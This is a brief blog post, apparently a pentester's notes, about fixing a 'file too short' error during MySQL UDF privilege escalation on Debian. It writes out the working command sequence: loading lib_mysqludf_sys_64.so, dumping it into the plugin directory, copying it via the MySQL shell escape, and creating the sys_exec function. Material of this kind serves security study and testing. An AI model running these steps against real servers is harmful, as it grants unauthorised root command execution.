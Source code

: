 ```yaml
---
title: "MySQL Error 'file too short' when creating 'sys_exec' function"
layout: post
published: true
---
```


I’ve recently encountered an interesting error “file too short” when escalating privileges on a Linux box via MySQL Library (lib_mysqludf_sys_64.so).

```bash
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/lib_mysqludf_sys_64.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';

ERROR 1126 (HY000): Can't open shared library 'lib_mysqludf_sys_64.so' 
(errno: 11 /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so: file too short)
```


Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)


### Solution
MySQL is running as root so we can try to copy the file manually via breaking into a shell 

```bash
mysql> \! cp lib_mysqludf_sys_64.so /usr/lib/mysql/plugin/

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)
```

### Software version details

- Database version MySQL 5.7.30 
- mysql process is running as a root
- OS: Debian 9.12 (stretch) x86_64

Cheers,</br>
bitsailor